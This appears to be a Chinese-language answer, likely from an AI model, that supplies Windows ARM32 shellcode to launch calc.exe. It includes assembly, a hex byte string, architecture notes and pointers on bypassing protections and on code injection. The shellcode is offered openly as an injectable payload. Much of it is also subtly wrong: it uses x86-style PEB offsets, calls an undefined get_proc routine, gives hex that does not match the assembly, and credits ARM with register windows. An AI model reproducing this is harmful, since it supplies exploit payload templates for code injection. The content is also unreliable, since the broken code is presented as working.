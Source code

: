 这里是一个 Windows ARM32 (32位) 架构下执行 calc.exe 的 shellcode：

```nasm
; Windows ARM32 shellcode - 执行 calc.exe
; ARM 32位汇编语法

start:
    ; 清零寄存器
    mov r0, #0                  ; 清零 r0
    mov r1, #0                  ; 清零 r1
    
    ; 构建字符串
    adr r0, calc_str           ; 加载字符串地址
    mov r1, #5                 ; SW_SHOW = 5
    
    ; 获取PEB
    ldr r3, =0xFFFF0000       ; PEB地址
    ldr r3, [r3, #0x30]       ; 获取PEB
    ldr r3, [r3, #0x0C]       ; PEB->Ldr
    ldr r3, [r3, #0x14]       ; InMemoryOrderModuleList
    ldr r3, [r3]              ; 跳过ntdll.dll
    ldr r3, [r3]              ; kernel32.dll
    ldr r3, [r3, #0x10]       ; 基址
    
    ; 查找WinExec
    ldr r2, =0xEC0E4E8E       ; WinExec散列
    bl get_proc               ; 获取函数地址
    
    ; 调用WinExec
    blx r0                    ; 执行函数
    
    ; 退出
    bx lr

calc_str:
    .ascii "calc.exe"
    .byte 0
```

十六进制形式：
```
\x00\x00\xA0\xE3\x00\x10\xA0\xE3\x00\x00\x8F\xE2\x05\x10\xA0\xE3
\x00\x30\x9F\xE5\x30\x30\x93\xE5\x0C\x30\x93\xE5\x14\x30\x93\xE5
\x00\x30\x93\xE5\x00\x30\x93\xE5\x10\x30\x93\xE5\x8E\x4E\x0E\xEC
\xFF\xFF\xFF\xEB\x00\xF0\xA0\xE1\x1E\xFF\x2F\xE1\x63\x61\x6C\x63
\x2E\x65\x78\x65\x00
```

ARM32 与其他架构的主要区别：

1. 寄存器使用：
- r0-r3：参数传递和返回值
- r4-r11：保存寄存器
- r12：IP寄存器
- r13：SP栈指针
- r14：LR链接寄存器
- r15：PC程序计数器

2. 指令特点：
- 固定长度32位指令
- 条件执行能力
- Thumb模式支持

3. 内存访问：
- 支持多种寻址模式
- 需要考虑对齐要求
- 特有的加载/存储指令

4. 关键区别：
```nasm
; ARM32特有的指令形式
mov r0, #0        ; 立即数加载
adr r0, label     ; 地址相对寻址
blx r0            ; 带状态切换的分支
```

5. 系统特性：
- 特有的异常处理方式
- 不同的系统调用约定
- 寄存器窗口概念

使用注意事项：
1. 代码必须对齐到4字节
2. 注意条件标志位使用
3. 考虑Thumb状态切换
4. 遵守ARM调用约定

与其他架构比较：
- 指令编码更规则
- 条件执行更灵活
- 地址计算方式不同
- 系统交互机制独特

验证和测试建议：
1. 使用ARM32模拟器测试
2. 检查内存对齐
3. 验证异常处理
4. 确保代码位置无关

在实际使用时需要注意：
1. 目标系统兼容性
2. 保护机制绕过
3. 代码注入限制
4. 内存访问规则